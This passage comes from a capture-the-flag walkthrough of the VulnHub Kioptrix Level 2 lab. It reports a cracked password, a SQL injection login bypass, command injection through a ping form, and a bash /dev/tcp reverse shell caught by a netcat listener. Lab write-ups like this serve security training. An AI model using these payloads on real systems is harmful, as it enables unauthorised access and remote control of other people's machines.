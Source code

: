 By performing a wordlist-based attack on the hashes the password was discovered to be `hiroshima`.

[Sqlmap Output · dvdmtw98/ctf-resources · GitHub](https://github.com/dvdmtw98/ctf-resources/blob/main/vulnhub/kioptrix_lvl2/sqlmap/10.0.2.23/log)

I tried using the username and password to connect to the target using SSH but I was not able to log in. I even tried using the credentials to log in to the database, while the credentials are valid it seems remote login is not allowed so my login attempts failed.

By this point, while I had discovered some details about the target system, I had still not managed to establish a connection with the target. Back on the login page, I decided to utilize some of the tests used to test if a login form is vulnerable to SQL injection.

[MySQL Injection.md · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)

```sql
' OR 1 -- -
```

![Web Application|300](images/vulnhub-kioptrix-lvl2/webapp-3.png)

![Web Application|560](images/vulnhub-kioptrix-lvl2/webapp-4.png)

On entering `127.0.0.1` as input a new page was loaded with the result of the `ping` command.

![Web Application|500](images/vulnhub-kioptrix-lvl2/webapp-5.png)

Next, I tried to append another command to the end of the IP address to check if the input was being sanitized and it turns out the input fields were not being sanitized.

```bash
127.0.0.1;cat index.php
```

![Web Application](images/vulnhub-kioptrix-lvl2/webapp-6.png)

The input field allows to run any command on the target. We can use this input field to set up a reverse shell. 

[Online - Reverse Shell Generator](https://www.revshells.com/)

Using Netcat setup a Listener and pass a reverse shell to the input field.

```bash
# Netcat Listener
nc -nvlp 9000

127.0.0.1;/bin/bash -i >& /dev/tcp/10.0.2.15/9000 0>&1
```

![Web Application|560](images/vulnhub-kioptrix-lvl2/webapp-7.png)

![Netcat|580](images/vulnhub-kioptrix-lvl2/netcat.png)

This granted me access to the system. Next need to gain `root` access. 

### Gaining Root Access
